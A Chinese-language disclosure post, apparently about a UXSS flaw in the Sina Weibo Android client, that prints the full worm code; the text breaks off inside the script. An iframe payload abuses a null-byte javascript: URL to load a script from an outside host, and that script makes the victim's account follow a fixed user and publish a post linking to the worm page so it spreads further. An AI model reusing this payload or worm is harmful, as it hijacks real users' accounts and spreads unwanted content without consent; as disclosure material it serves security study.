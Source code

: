 （此部分考虑到影响并未第一时间放出，现在漏洞已经被忽略，在此更新）

1、[WooYun: 扫描新浪微博安卓客户端UXSS附蠕虫利用](http://www.wooyun.org/bugs/wooyun-2014-079471)蠕虫代码如下：

test.html

```
<iframe name="m" src="http://m.weibo.cn/xxx" onload="window.open('\u0000javascript:window.s%3Ddocument.createElement%28%27script%27%29%3Bwindow.s.src%3D%27http://site/test.js%27%3Bdocument.body.appendChild%28window.s%29%3B','m')" >

```

test.js

```
url = 'http://m.weibo.cn/attentionDeal/addAttention?';

url2 = 'http://m.weibo.cn/mblogDeal/addAMblog?rl=1';

function createXHR(){

    return window.XMLHttpRequest?

    new XMLHttpRequest():

    new ActiveXObject("Microsoft.XMLHTTP");

}





function post(url,data,sync){

    xmlHttp = createXHR();

    xmlHttp.open("POST",url,sync);

    xmlHttp.setRequestHeader("Accept","text/html, application/xhtml+xml, */*");

    xmlHttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded; charset=UTF-8");

    xmlHttp.send(data);

}



function send(){

    data = 'uid=3605736194';

    data2 = 'content=http://site/worm.html';

    post(url,data,false);

    post(url2,data2,false);

}



function main(){

```